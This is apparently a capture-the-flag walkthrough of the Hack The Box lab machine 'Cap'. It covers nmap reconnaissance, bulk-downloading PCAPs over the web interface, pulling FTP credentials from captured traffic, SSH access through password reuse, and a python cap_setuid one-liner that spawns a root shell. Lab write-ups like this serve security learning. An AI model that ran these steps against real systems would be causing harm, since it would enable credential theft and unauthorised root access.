

# Cap

We start off with `nmap`.

```
# Nmap 7.92 scan initiated Sat Aug 21 13:05:13 2021 as: nmap -vvv -p 22,21,80 -sCV -oA init 10.10.10.245
Nmap scan report for box.ip (10.10.10.245)
Host is up, received syn-ack (0.069s latency).
Scanned at 2021-08-21 13:05:14 +07 for 132s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2vrva1a+HtV5SnbxxtZSs+D8/EXPL2wiqOUG2ngq9zaPlF6cuLX3P2QYvGfh5bcAIVjIqNUmmc1eSHVxtbmNEQjyJdjZOP4i2IfX/RZUA18dWTfEWlNaoVDGBsc8zunvFk3nkyaynnXmlH7n3BLb1nRNyxtouW+q7VzhA6YK3ziOD6tXT7MMnDU7CfG1PfMqdU297OVP35BODg1gZawthjxMi5i5R1g3nyODudFoWaHu9GZ3D/dSQbMAxsly98L1Wr6YJ6M6xfqDurgOAl9i6TZ4zx93c/h1MO+mKH7EobPR/ZWrFGLeVFZbB6jYEflCty8W8Dwr7HOdF1gULr+Mj+BcykLlzPoEhD7YqjRBm8SHdicPP1huq+/3tN7Q/IOf68NNJDdeq6QuGKh1CKqloT/+QZzZcJRubxULUg8YLGsYUHd1umySv4cHHEXRl7vcZJst78eBqnYUtN3MweQr4ga1kQP4YZK5qUQCTPPmrKMa9NPh1sjHSdS8IwiH12V0=
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDqG/RCH23t5Pr9sw6dCqvySMHEjxwCfMzBDypoNIMIa8iKYAe84s/X7vDbA9T/vtGDYzS+fw8I5MAGpX8deeKI=
|   256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPbLTiQl+6W0EOi8vS+sByUiZdBsuz0v/7zITtSuaTFH
80/tcp open  http    syn-ack gunicorn
|_http-server-header: gunicorn
| fingerprint-strings:
[snip]
|_http-title: Security Dashboard
| http-methods:
|_  Supported Methods: HEAD OPTIONS GET
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[snip]
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 21 13:07:26 2021 -- 1 IP address (1 host up) scanned in 132.99 seconds
```

Looking at the web service, we have pages that show us the output of `ip a` and `netstat`, as well as an option to download packet captures on the machine. The packet capture allows us to download captured PCAP files. Fuzzing captures numbers, we can see some page with captured data and some without, so we filter out captures with no data and download captures with data.

```sh
$ seq 0 30 | while read line; do curl "http://box.ip/download/$line" --output "$line.pcap"; done
# further remove blank captures
$ wc -c *pcap | grep " 24 " | awk '{print $2}' | xargs rm
# remove non-pcap (html) files (checked with `file`)
$ rm 2* 30.pcap
```

Going through the pcaps, we find that a large portion of the captured traffic is generated by `ffuf`, `nikto` and `dirbuster` run by someone else, which was verified by filtering using User-Agents. Only PCAP number 0 has interesting data. TCP stream 3 is of an FTP interaction, including valid credentials used to log in.



With the found credentials, we can log into FTP. Additionally, we're able to use the same credentials to log into SSH as "nathan", thanks to password reuse.

With a shell, I than ran [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh). Within the results, we have python with `cap_setuid`

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

We can use this to get a shell as root.

```sh
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
